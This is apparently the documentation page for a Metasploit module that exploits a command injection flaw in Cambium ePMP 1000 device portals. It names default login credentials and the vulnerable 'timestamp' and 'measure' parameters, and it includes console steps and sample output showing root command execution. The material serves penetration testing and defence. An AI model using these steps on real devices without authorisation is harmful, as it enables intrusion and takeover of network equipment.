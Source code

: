 This module exploits an OS Command Injection vulnerability in Cambium ePMP 1000 (v3.1-3.5-RC7) device management portal. It requires any one of the following login credentials - admin/admin, installer/installer, home/home - to execute arbitrary system commands. This module injects the payload in 'timestamp' parameter. Alternatively, a second, vulnerable parameter 'measure' can also be used.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/epmp1000_get_chart_cmd_exec```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```set CMD [COMMAND]```
5. Do: ```run```

## Sample Output

  ```
msf > use auxiliary/scanner/http/epmp1000_get_chart_cmd_exec
msf auxiliary(epmp1000_get_chart_cmd_exec) > set rhosts 1.3.3.7
msf auxiliary(epmp1000_get_chart_cmd_exec) > set rport 80
msf auxiliary(epmp1000_get_chart_cmd_exec) > set CMD id; pwd
msf auxiliary(epmp1000_get_chart_cmd_exec) > run

[+] 1.3.3.7:80 - Running Cambium ePMP 1000 version 3.5...
[*] 1.3.3.7:80 - Attempting to login...
[+] SUCCESSFUL LOGIN - 1.3.3.7:80 - "installer":"installer"
[*] 1.3.3.7:80 - Executing id; pwd
uid=0(root) gid=0(root)
/
[*] 1.3.3.7:80 - File saved in: /root/.msf4/loot/20000000000003_default_1.3.3.7_ePMP_cmd_exec_12345.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

  ```
